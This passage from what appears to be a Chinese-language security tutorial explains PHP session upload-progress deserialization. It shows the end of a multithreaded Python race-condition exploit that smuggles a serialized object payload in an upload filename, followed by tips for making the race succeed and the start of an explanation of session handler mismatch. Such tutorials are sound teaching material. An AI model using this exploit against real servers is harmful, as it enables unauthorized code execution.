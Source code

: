 ```python
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            
​
if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in range(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()
​
```

在代码里加个代理，利用burpsuite抓包

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210524233252144.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
这里有几个注意点：
- PHPSESSID必须要有，因为要竞争同一个文件
- filename可控，但是在值的最前面加上|,因为最终目的是利用session的反序列化，PHP_SESSION_UPLOAD_PROGRESS只是个跳板；其次把字符串中的双引号转义，以防止与最外层的双引号冲突
- 上传的文件要大些，否则很难竞争成功；写入f = io.BytesIO(b'a' * 1024 *1024*1)
- filename值中出现汉字时，会出错，所以在利用脚本前，一定要修改python源码

>把exp.py中的代理去掉，直接跑exp.py，效果如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210524233501242.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 利用不同的引擎来处理session文件

php处理器和php_serialize处理器这两个处理器生成的序列化格式本身是没有问题的，但是如果这两个处理器混合起来用，就会造成危害。形成的原理就是在用session.serialize_handler = php_serialize存储的字符可以引入 | , 再用session.serialize_handler = php格式取出$_SESSION的值时， |会被当成键值对的分隔符，在特定的地方会造成反序列化漏洞
我们创建一个session.php，用于传输session值，里面代码如下
